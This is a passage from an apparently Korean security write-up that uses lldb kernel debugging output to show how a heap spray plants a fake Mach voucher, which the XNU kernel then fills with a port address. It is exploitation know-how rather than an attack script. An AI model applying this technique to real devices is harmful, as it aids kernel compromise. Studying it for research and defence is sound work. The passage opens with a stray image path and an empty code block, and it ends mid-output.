 ```cpp
```

`thread_get_mach_voucher` 함수에 브레이크포인트를 걸어 확인해보면,
`thread->ith_voucher`는 0xffffff8026187d70를 가리키며,
**스프레이에 의해 조작된 iv_refs=100이 들어가있고, iv_port는 NULL인 상태로 유효하지 않다.**

```c
(lldb) b *0xffffff8019de5560
Breakpoint 1: where = kernel`thread_get_mach_voucher at thread.c:3044, address = 0xffffff8019de5560
(lldb) c
Process 1 resuming
Process 1 stopped
* thread #1, stop reason = signal SIGTRAP
    frame #0: 0xffffff8019eda180 kernel`machine_idle at pmCPU.c:174:3 [opt]
Target 0: (kernel) stopped.
(lldb) c
Process 1 resuming
Process 1 stopped
* thread #1, stop reason = breakpoint 1.1
    frame #0: 0xffffff8019de5560 kernel`thread_get_mach_voucher(thread=0xffffff8024395370, which=2137391104, voucherp=0xffffff807a8f3d60) at thread.c:3044 [opt]
Target 0: (kernel) stopped.
(lldb) p *(thread_act_t)$rdi
(thread) $2 = {
...
  **ith_voucher = 0xffffff8026187d70**
...
}
**(lldb) p *(ipc_voucher_t)0xffffff8026187d70**
(ipc_voucher) $3 = {
  iv_hash = 0
  iv_sum = 0
  iv_refs = (ref_count = 100)
  iv_table_size = 0
  iv_inline_table = ([0] = 0, [1] = 0, [2] = 0, [3] = 0, [4] = 0, [5] = 0, [6] = 0, [7] = 0)
  iv_table = 0x0000000000000000
  iv_port = NULL
  iv_hash_link = {
    next = NULL
    prev = NULL
  }
}
```

`thread_get_mach_voucher` 함수를 호출한 이후,
0xffffff8026187d70 주소인 `thread->ith_voucher` 구조체를 다시 확인하면
**이번에는 iv_port 커널 주소가 써진 것을 볼 수 있다.**

```c
**(lldb) p *(ipc_voucher_t)0xffffff8026187d70**
(ipc_voucher) $4 = {
  iv_hash = 0
  iv_sum = 0
  iv_refs = (ref_count = 101)
  iv_table_size = 0
  iv_inline_table = ([0] = 0, [1] = 0, [2] = 0, [3] = 0, [4] = 0, [5] = 0, [6] = 0, [7] = 0)
  iv_table = 0x0000000000000000
  **iv_port = 0xffffff802a119110**
  iv_hash_link = {
    next = NULL
    prev = NULL
  }
}
(lldb) p *(ipc_port_t)0xffffff802a119110
(ipc_port) $5 = {
```